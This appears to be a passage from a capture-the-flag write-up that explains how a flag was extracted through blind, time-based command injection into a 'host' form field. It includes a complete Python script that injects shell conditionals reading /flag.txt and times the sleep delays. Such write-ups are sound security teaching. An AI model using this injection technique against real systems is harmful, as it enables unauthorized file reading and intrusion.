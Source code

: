Automating this with python is great and would work fine locally, but the server was slow and there might be many errors to catch through the way, so I used BurpSuite Intruder during the ctf where I sent all the possible chars for each char address `-c ..`, checked the response time that are > 7 seconds and grabbed the flag manually.

But here is the python script that I used locally:
    
```python
#!/bin/python3
import requests
from string import printable

url = "http://127.0.0.1:5000/flag"
flag = "DEAD{"
sleep_time = 1

chars = printable
# those always return true in the search
chars = (
    chars.replace(".", "").replace("$", "").replace("^", "")
)  # mostly the flag charset is a-zA-Z0-9{}_-


def request(payload):
    data = {"host": payload}
    try:
        r = requests.post(url, data=data, timeout=15, verify=False)
    except requests.exceptions.ConnectionError:
        return request(payload)
    if r.status_code != 200 or "Error" in r.text:
        return request(payload)

    return r.elapsed.total_seconds()


c_i = len(flag)
while True:
    for c in chars:
        payload = f";if [ $(cat /flag.txt | cut -c{c_i+1} | grep -c '{c}') -eq 1 ]; then sleep {str(sleep_time)}; fi"  # this way it is possible to implement threading, but it will overload the server so I didn't try it.
        print(f"Tyring {c}", end="\r")
        r = request(payload)
        while sleep_time > r + 4:  # to handle possible falst posatives
            r = request(payload)
        if r >= sleep_time and r:
            print()
            flag += c
            print(flag)
            print()
            break
    if flag[-1] == "}":
        break

    c_i += 1


print()
print("Done")
print(flag)
```
